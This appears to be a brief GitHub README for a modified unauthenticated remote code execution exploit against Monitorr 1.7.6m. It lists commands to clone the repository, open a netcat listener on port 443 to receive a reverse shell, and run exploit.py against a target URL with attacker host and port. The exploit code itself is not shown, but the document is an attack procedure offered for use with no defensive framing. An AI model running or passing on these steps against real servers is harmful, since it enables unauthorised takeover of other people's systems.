 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Installation
``git clone https://github.com/valentinodev/monitorr_1.7.6m_remote_code_execution_modified.git``

``cd monitorr_1.7.6m_remote_code_execution_modified``

### Netcat (another terminal)
``apt install rlwrap``

``rlwrap nc -lvnp 443``

### Exploit
``python exploit.py https://domain.com LHOST PORT``
